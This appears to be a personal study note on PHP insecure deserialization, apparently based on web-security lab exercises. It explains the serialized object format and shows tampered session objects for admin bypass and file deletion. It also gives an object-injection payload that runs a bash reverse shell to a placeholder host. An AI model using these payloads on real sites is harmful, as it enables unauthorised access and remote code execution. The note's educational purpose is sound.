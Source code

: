 ```yaml
---
title: "Insecure Deserlization"
tags:
    - WEB
    - PHP
date: "2024-07-23"
thumbnail: "/assets/img/thumbnail/serialization.png"
bookmark: true
---
```

# Serialization
---
 is the process of converting to complex data structures, such as objects and their fields.
Serializing data makes it much simpler to:
- Write complex data to inter-process memory, a file, or a database
- Send complex data, for example, over a network, between different components of an application, or in an API call
- Some languages serialize objects into binary formats
- all of the original object's attributes are stored in the serialized data stream, including any private fields
- Used for storing and transferring data
---
# Insecure deserialization
---
deserialization vulnerabilities can be as easy as changing an attribute in a serialized object , identify and edit interesting attribute values. You can then pass the malicious object into the website via its deserialization process
**Used to:**
1- RCE
2- privilege escalation
3- file access
4- DOS attack
5- Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context.
**How to identify?**
 data flow in request
---
# PHP serialization
---
in code:
```php
$user->name = "carlos";
$user->isLoggedIn = true;
```
after selialization:
```php
`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`
```
`O:4:"User"` - An object with the 4-character class name `"User"`

`2` - the object has 2 attributes

`s:4:"name"` - The key of the first attribute is the 4-character string `"name"`

`s:6:"carlos"` - The value of the first attribute is the 6-character string `"carlos"`

`s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string `"isLoggedIn"`

`b:1` - The value of the second attribute is the boolean value `true`

**Magic methods in PHP**

https://www.php.net/manual/en/language.oop5.magic.php
• you create exploits that pass data into dangerous methods automatically.
• Magic methods are a common feature of OOP like `__destruct()` or `__construct()` .
• Some languages have magic methods that are invoked automatically **during** the deserialization process, For example, PHP's unserialize()method looks for and invokes an object's `__wakeup()`magic method.
<img src="/assets/img/deser/1.png">

**In decoded session**
- `O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}` —>change 0 to 1
- `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:20:"ej9jdijdf9efje9eof9j9f";}`
—> change to `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`
in case the access_token or password doesn’t start with number so we can instead value with 0
`0 == "Example string" // true` in PHP
**Arbitrary object injection in PHP**
We need source code to create and inject a malicious serialized object to do specific function
<img src="/assets/img/deser/2.png">

notice the `CustomTemplate` class contains the `__destruct()`magic method. This will invoke the `unlink()` method on the `lock_file_path` attribute, `unlink()` method to delete file
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`
### scenario
<img src="/assets/img/deser/3.png">

```php
O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}
->
O:18:"PHPObjectInjection":1:{s:6:"inject";s:71:"system('/bin/bash -c \'bash -i >& /dev/tcp/ip/port 0>&1\'');";}
```
---
# mitigation
---
1- user input should never be deserialized at all.
2- Use a cryptographic library to generate a signature for the object and validate it prior to deserializing the returned object.
3- Don’t use unserialize() function with user input, use JSON functions instead.
---
